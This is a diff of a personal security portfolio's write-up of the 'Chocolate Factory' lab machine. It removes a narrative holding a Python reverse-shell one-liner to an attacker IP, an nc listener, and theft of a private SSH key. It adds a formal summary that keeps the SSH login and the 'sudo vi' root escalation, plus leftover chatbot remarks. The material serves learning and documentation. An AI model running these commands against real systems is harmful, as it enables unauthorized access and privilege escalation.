

Before and after one commit to Tharisky/Portfolio, a Markdown page: Web App/Labs/Chocolate city.md, the part around one of its changes. Shown at 97% size. GitHub-like rendering; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

````diff
--- a/Web App/Labs/Chocolate city.md
+++ b/Web App/Labs/Chocolate city.md
@@ -47,75 +139,45 @@ getting to The home.php, it was discovered that the page has a command functiona
 
-Trying the comman d"Cat /etc", the website gave a response showing that it is vulnerable to command ninjection vulnerability
-![image](https://github.com/user-attachments/assets/8c73edae-6c13-4884-8868-df07f4aef56d)
+- **Initial Access**: Exploited a command injection vulnerability on `home.php` to gain a reverse shell as `www-data`.
+- **Privilege Escalation**: Used a private SSH key (`telport`) found in `/home/charlie` to escalate privileges to the `charlie` user and retrieve the user flag.
+- **Vulnerabilities Identified**:
+  - Anonymous FTP access exposing potentially sensitive files.
+  - Command injection in the web application allowing arbitrary command execution.
+  - Insecure storage of SSH keys enabling privilege escalation.
 
+---
 
+### Conclusion
 
-using the command " which python3 " on the page, the server hosting website was querried to confirm if there is a python binary on it , and the response showed that there is a python binary
+This PoC demonstrates the successful compromise of the Chocolate Factory lab machine by gaining initial access via command injection and escalating privileges to the `charlie` user using an exposed SSH key. The lab highlights critical vulnerabilities such as command injection and improper key management, which can lead to unauthorized access and privilege escalation. Immediate remediation is recommended, including sanitizing user inputs, disabling anonymous FTP access, and securing SSH keys with proper permissions.
 
-then using the command
-python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.4.106.235",2294));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
-and
-nc -nlvp 2249
+---
 
-A reverse shell was gotten
-Picture showing the reverse shell gotten from the server hosting the website
-![image](https://github.com/user-attachments/assets/eb87dc55-adaa-46cc-9b3d-5ca84aaad3db)
+### Notes for GitHub Portfolio
+- **Image Links**: The provided GitHub image links (e.g., `https://github.com/user-attachments/assets/d6c9ab51-46d6-495e-981e-8544c5f4d30c`) are retained and will render correctly in a GitHub README.md. Ensure these images are accessible in your repository.
+- **Copy and Paste**: This Markdown content can be directly copied into a GitHub README.md or project page for proper rendering of headers, bullet points, code blocks, and images.
+- **Professional Tone**: The report maintains a formal tone, suitable for a professional portfolio, while preserving all technical details.
+- **Skills Highlighted**: Demonstrates expertise in network enumeration, web application security, command injection exploitation, privilege escalation, and use of tools like Nmap, FFUF, and SSH for penetration testing.
 
+---
 
-And we were able to get initial access...
+### Additional Notes for Root Access (As Provided)
+- After gaining access as `charlie`:
+  1. Perform directory brute-forcing to find the command injection page (already done via FFUF).
+  2. Use the command injection page to run a PHP or Bash shell command (already exploited for the reverse shell).
+  3. After getting the shell:
+     - Find user accounts: `cat /etc/passwd` (already done).
+     - Navigate to Charlie’s account and retrieve the user flag:
+       - Grab the private SSH key (`telport`) and save it as `charley` (already done).
+       - SSH into Charlie’s account:
+         ```bash
+         ssh charlie@10.10.12.204 -i charley
+         ```
+       - Retrieve the user flag (already done).
+  4. Escalate to root:
+     - Check sudo privileges: `sudo -l`
+     - Run `vi` with sudo: `sudo /usr/bin/vi`
+     - Within `vi`, execute: `!/bin/bash` to gain a root shell.
 
+Let (
 
-Part B: Privilege escalation
-
-After initial access was gained with the user www-data
-some files were found in the directory which includes key_rev_key
-
-Using the command "strings" to check the content of the file "key_rev_key", a key was found
-![image](https://github.com/user-attachments/assets/af1530b0-29d1-4246-a24c-22a9777c0180)
-
-
-Then using cat /etc/passwd, the user accounts on the machine was discovered, and a user called charlie was part of it.
-
-Thn I navigated to charlie's home directory and files like telport, telport.pub were found
-the content of charlie's home directory
-![image](https://github.com/user-attachments/assets/fc896cf9-6549-4345-90e2-ecf7d2debc0c)
-
-The teleport file contained a private ssh key, this key was copied and saved on the attacker's machine with the name "charley'
-
-The key was then used to login to charlie's account via ssh
-ssh charlie@10.10.12.204 -i charley
-
-Picture showing a successful login
-![image](https://github.com/user-attachments/assets/6cd2fc4f-ff14-4f8d-b632-d71b9e41ebf9)
-
-
-
-A user flag was then found in the user home directory..
-
-
-Then to gaining root access..... coming soon
-
-
-
-
-
-
-
-
-
-
-2. Directoy bruteforce that leads to a acommand njectin page
-3. run a php or bash shell command
-
-after getting the shell
-find the user account
-navigate to charlie's account and get the user flag by
-  1. grabbing a private ssh keys
-  2. ssh charlie@ip -i name_of_key
-
-then
-get the user flag
-then
-  sudo -l
-  sudo /usr/bin.vi
-  then !/bin/bash
+me know if you need further adjustments!
````
Also changed, not shown: other parts of Web App/Labs/Chocolate city.md (+116 -24 lines).
